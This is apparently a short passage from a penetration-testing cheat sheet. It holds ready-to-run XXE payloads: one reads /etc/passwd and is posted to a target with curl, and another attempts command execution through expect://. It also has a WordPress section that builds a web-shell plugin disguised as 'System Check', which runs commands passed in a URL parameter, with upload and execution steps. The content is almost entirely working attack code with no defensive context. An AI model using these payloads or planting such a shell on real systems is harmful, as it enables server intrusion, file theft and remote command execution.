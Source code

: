 ```bash
# Create XXE payload
cat > xxe.xml << 'EOF'
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
EOF

# Send payload
curl -X POST http://TARGET/upload.xml \
  -H "Content-Type: application/xml" \
  -d @xxe.xml
```

### XXE to RCE (Expect)

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<foo>&xxe;</foo>
```

## WordPress Exploitation

### After Getting Admin Access

**Method 1: Plugin Upload**
```bash
# Create malicious plugin
cat > shell.php << 'EOF'
<?php
/**
 * Plugin Name: System Check
 * Version: 1.0
 */
if(isset($_GET['cmd'])) { system($_GET['cmd']); }
?>
EOF

# Zip it
zip shell.zip shell.php

# Upload via WordPress admin:
# Plugins → Add New → Upload Plugin → Choose shell.zip → Install → Activate

# Execute commands
curl "http://TARGET/wp-content/plugins/shell/shell.php?cmd=id"
```

